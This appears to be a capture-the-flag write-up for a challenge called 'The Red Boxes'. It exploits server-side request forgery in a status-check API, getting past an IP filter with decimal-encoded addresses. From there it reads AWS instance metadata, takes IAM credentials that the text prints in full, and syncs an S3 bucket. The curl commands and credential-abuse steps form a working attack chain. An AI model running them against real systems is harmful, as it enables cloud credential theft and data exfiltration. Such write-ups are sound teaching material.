 # The Red Boxes

## Description


Target URL: http://18.225.5.156
## Solution

Browsing to the given URL we find a web application which shows the status for different servers. 

![](assets/web.png)

Checking the page source we see below JavaScript code.

```javascript
function httpGet()
  {
      var xmlHttp = new XMLHttpRequest();
      xmlHttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.statusCode == 200) {
      
        document.getElementById("redis").innerHTML = '<span class="ok" >Operational</span>';
      }
    else{
      document.getElementById("redis").innerHTML = '<span class="outage" >Outage</span>';
    }
    };
      xmlHttp.open( "POST", "/api/v2/service/check", false );
      xmlHttp.setRequestHeader("Content-Type", "application/json");
      var data = JSON.stringify({"service": "redis", "server": "redis"});
      xmlHttp.send(data);
      setTimeout(httpGet, 5000);
  }
  httpGet();
```

This function sends a POST request to `/api/v2/service/check` API endpoint to check the status of the redis service every five seconds. The request contains `server` parameter which could be the hostname of the target server. This gives an opportunity to perform Server Side Request Forgery. Create a http listener on [request catcher](https://requestcatcher.com/) website. Let's craft a cURL request as shown below. 

```bash
curl -XPOST http://3.19.30.169/api/v2/service/check \
	-H 'Content-Type: application/json' \
	-d '{"service": "redis", "server":"atostest.requestcatcher.com"}'
```

Sending below request we didn't receive any callback in the request catcher and the server responds as `Failed to reach the server`. It is expected as it may have outbound requests blocked in the firewall configuration. We can maybe try to reach the internal network. Checking `localhost` in the `server` address loads the same page response. 

```bash
curl -s -XPOST http://3.19.30.169/api/v2/service/check -H 'Content-Type: application/json' -d '{"service": "redis", "server":"localhost"}' | head

<!DOCTYPE html>
<html lang="en" >
<head>
 <title>Status Check | Bank of Spain</title>
```

This means that we can reach to internal resources. Enumerating the DNS info for given IP reveals that the server is hosted in AWS address space.

```
nslookup 3.19.30.169
169.30.19.3.in-addr.arpa        name = ec2-3-19-30-169.us-east-2.compute.amazonaws.com.
```

We can try to reach the instance metadata service (IMDS) by hitting the `169.254.169.254` IP address. 

```bash
curl -XPOST http://3.19.30.169/api/v2/service/check \
	-H 'Content-Type: application/json' \
	-d '{"service": "redis", "server":"169.254.169.254"}'

Failed to reach the server
```

This fails. Since we've the `localhost` working we can try to see how the validation is being done on server side. Let's test again by passing `127.0.0.1` as `server` parameter. 

```bash
curl -XPOST http://3.19.30.169/api/v2/service/check \
	-H 'Content-Type: application/json' \
	-d '{"service": "redis", "server":"127.0.0.1"}'

Failed to reach the server
```

This failed as well. There could be a regex blocking the IP address space. General approach would be to check `{1..255}.{1..255}.{1..255}.{1..255}` format. Let's try to convert the IP address to decimal which will not have dots in it.

```python
>>> from ipaddress import ip_address
>>> ip_address('127.0.0.1')
IPv4Address('127.0.0.1')
>>> int(ip_address('127.0.0.1'))
2130706433
```

Now let's send the request again using decimal value. 

```bash
curl -s -XPOST http://3.19.30.169/api/v2/service/check -H 'Content-Type: application/json' -d '{"service": "redis", "server":"2130706433"}' | head

<!DOCTYPE html>
<html lang="en" >
<head>
<title>Status Check | Bank of Spain</title>
```

This works. Similarly convert the metadata IP to decimal value and send the request.

```bash
curl -s -XPOST http://3.19.30.169/api/v2/service/check -H 'Content-Type: application/json' -d '{"service": "redis", "server":"2852039166"}' 

1.0
2007-01-19
...
2021-07-15
latest
```

This is successful. Let's enumerate the IAM info. 

```bash
curl -s -XPOST http://3.19.30.169/api/v2/service/check -H 'Content-Type: application/json' -d '{"service": "redis", "server":"2852039166/latest/meta-data/iam/info"}' 
{
  "Code" : "Success",
  "LastUpdated" : "2022-04-11T09:29:01Z",
  "InstanceProfileArn" : "arn:aws:iam::852948644505:instance-profile/Storage",
  "InstanceProfileId" : "AIPA4NF5TOKM4FXCMUN22"
}
```

We see there is a `Storage` role attached to this instance. The role temporary credentials can be requested using `/latest/meta-data/iam/security-credentials/Storage` path. 

```bash
curl -s -XPOST http://3.19.30.169/api/v2/service/check -H 'Content-Type: application/json' -d '{"service": "redis", "server":"2852039166/latest/meta-data/iam/security-credentials/Storage"}' 
{
  "Code" : "Success",
  "LastUpdated" : "2022-04-11T09:29:37Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA4NF5TOKM5T7U2G4V",
  "SecretAccessKey" : "RoifBsy5MeDunpuZWohDlEo+36g2XuzlCWc5kBTy",
  "Token" : "IQoJb3JpZ2luX2VjEI...CnvIUEEUWVulXpxFA==",
  "Expiration" : "2022-04-11T15:58:55Z"
}
```

Let's configure the credentials and enumerate account information. 

```bash
aws configure
AWS Access Key ID [None]: ASIA4NF5TOKM5T7U2G4V
AWS Secret Access Key [None]: RoifBsy5MeDunpuZWohDlEo+36g2XuzlCWc5kBTy
Default region name [None]: us-east-1
Default output format [None]:
```

```bash
aws configure set aws_session_token 'IQoJb3JpZ2luX2VjEI...CnvIUEEUWVulXpxFA=='
```

```bash
aws sts get-caller-identity
{
    "UserId": "AROA4NF5TOKM74RNDMS5A:i-08a4c1a31aab78b67",
    "Account": "852948644505",
    "Arn": "arn:aws:sts::852948644505:assumed-role/Storage/i-08a4c1a31aab78b67"
}
```

Using these credentials we can try some basic enumeration like listing S3 buckets or Lambda functions etc. But for extensive checks we can use [weirdAAL](https://github.com/carnal0wnage/weirdAAL) tool which reports possible privileges this role has. Let's setup the tool.

```bash
git clone https://github.com/carnal0wnage/weirdAAL.git
cd weirdAAL
pip3 install -r requirements.txt
python3 create_dbs.py 
```

Now we export the keys to env. 

```bash
export AWS_ACCESS_KEY_ID=ASIA4NF5TOKM5T7U2G4V
export AWS_SECRET_ACCESS_KEY=RoifBsy5MeDunpuZWohDlEo+36g2XuzlCWc5kBTy
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEI...CnvIUEEUWVulXpxFA==
```

We can now run the tool. 

```bash
python3 weirdAAL.py -m recon_all -t atosctf

Account Id: 852948644505
ASIA4NF5TOKM5T7U2G4V : Is NOT a root key
### Enumerating AccessAnalyzer Permissions ###
An error occurred (AccessDeniedException) when calling the ListAnalyzers operation: User: arn:aws:sts::852948644505:assumed-role/Storage/i-08a4c1a31aab78b67 i
s not authorized to perform: access-analyzer:ListAnalyzers on resource: arn:aws:access-analyzer:us-east-1:852948644505:*                                      
                                                                     
[-] No accessanalyzer actions allowed [-]
...
### Enumerating S3 Permissions ###
ListBuckets IS allowed                                                                   

[+] s3 Actions allowed are 
[+] ['ListBuckets']       
```

The role has privileges to list S3 buckets like we guessed earlier. Let's list the buckets. 

```bash
aws s3 ls
2022-03-27 02:08:32 aws-codestar-us-east-1-852948644505
2022-03-25 10:44:51 aws-codestar-us-east-2-852948644505
2022-03-27 12:41:09 aws-codestar-us-east-2-852948644505-crimerecordmgmt-pipe
2022-03-28 01:46:30 call-records-1435289453
2022-03-24 12:49:44 state-secrets-96d94a687f88ca15
```

We see many buckets and out of which we only have access to `state-secrets-96d94a687f88ca15` bucket. Let's list the the contents inside it.

```bash
aws s3 ls s3://state-secrets-96d94a687f88ca15/
                           PRE func_adm/
2022-04-11 06:48:37      14510 Classified Information.docx
2022-03-24 12:50:06         31 flag.txt
```

We can use `sync` flag to copy the files recursively to our local machine. 

```bash
aws s3 sync s3://state-secrets-96d94a687f88ca15/ bucket

download: s3://state-secrets-96d94a687f88ca15/Classified Information.docx to bucket/Classified Information.docx
download: s3://state-secrets-96d94a687f88ca15/flag.txt to bucket/flag.txt
download: s3://state-secrets-96d94a687f88ca15/func_adm/id_rsa.pub to bucket/func_adm/id_rsa.pub
download: s3://state-secrets-96d94a687f88ca15/func_adm/id_rsa to bucket/func_adm/id_rsa
```

Flag can be viewed from `bucket/flag.txt` 

```bash
cat bucket/flag.txt 
ACVCTF{ssrf_t0_1mds_1s_fun!!!}
```

